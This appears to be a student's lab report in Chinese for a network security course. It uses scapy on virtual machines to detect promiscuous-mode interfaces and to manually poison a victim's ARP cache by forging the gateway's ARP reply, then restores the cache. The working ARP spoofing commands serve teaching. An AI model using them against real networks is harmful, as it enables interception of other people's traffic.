

# 第四章实验：网络监听

## 实验准备

网络中的节点基本信息如下：

- 攻击者主机：Kali
  - 08:00:27:0b:04:81 / eth0
  - 172.16.111.144
- 受害者主机：Kali
  - 08:00:27:52:c6:b2/ eth0
  - 172.16.111.108
- 网关：Debian
  - 08:00:27:10:ea:af/ enp0s9
  - 172.16.111.1

### 安装scapy

- 在攻击者主机上安装scapy、安装 python3
  
  `sudo apt update && sudo apt install python3 python3-pip`

   `pip3 install scapy[complete]`

   

##  实验一：检测局域网中的异常终端

- 在受害者主机上检查网卡的「混杂模式」是否启用 ( 这里应该没有出现 PROMISC 字符串)

  `ip link show eth0`

  

- 在攻击者主机上开启 scapy

  `sudo scapy`

- 在 scapy 的交互式终端输入以下代码回车执行

  `pkt = promiscping("172.16.111.108")`

 

-  回到受害者主机上手动开启该网卡的「混杂模式」

   `sudo ip link set eth0 promisc on`

- 再次检查混杂模式状态，发现输出结果里多出来了 PROMISC 
  
  `ip link show eth0`
 
   

- 回到攻击者主机上的 scapy 交互式终端继续执行命令

  `pkt = promiscping("172.16.111.108")`

 - 两次pkt结果对比
  
   

- 在受害者主机上手动关闭该网卡的「混杂模式」

  `sudo ip link set eth0 promisc off`

##  实验二：手工单步“毒化”目标主机的 ARP 缓存
受害者主机初始ARP缓存信息

   

以下代码在攻击者主机上的 `scapy` 交互式终端完成

- 构造一个 ARP 请求

  `arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")`

- 查看构造好的 ARP 请求报文详情
  
  `arpbroadcast.show()`

- 发送这个 ARP 广播请求
 
  `recved = srp(arpbroadcast, timeout=2)`

  

- 伪造网关的 ARP 响应包，准备发送给受害者主机 172.16.111.108，ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址

  `arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.108",hwdst="08:00:27:0b:04:81")`

- 发送上述伪造的 ARP 响应数据包到受害者主机

  `sendp(arpspoofed)`

   
  

- 此时在受害者主机上查看 ARP 缓存，会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

   `ip neigh`

   

回到攻击者主机上的 scapy 交互式终端继续执行命令。

- 恢复受害者主机的 ARP 缓存记录

  - 伪装网关给受害者发送 ARP 响应
 
    `restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:10:ea:af", pdst="172.16.111.108", hwdst=" 08:00:27:52:c6:b2")`
 
    `sendp(restorepkt1, count=100, inter=0.2)`

    

此时在受害者主机上准备“刷新”网关 ARP 记录。

- 在受害者主机上尝试 ping 网关
 
  `ping 172.16.111.1`

- 静候几秒 ARP 缓存刷新成功，退出 ping

- 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
  
  `ip neigh`

   

## 思考与反思
- 实验相对简单，做完实验想尝试直接在攻击者主机命令行里利arpspoof -i eth0 -t 172.16.111.108 172.16.111.1实现一下ARP攻击不能上网，但在kali中一直报错：找不到arpspoof。但该虚拟机已装有arpspoof,应该猜测是更新问题，需要执行sudo apt-install update && sudo apt-install upgrade.但依旧没解决问题==
 
   
## 参考
- [黄药师课件](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)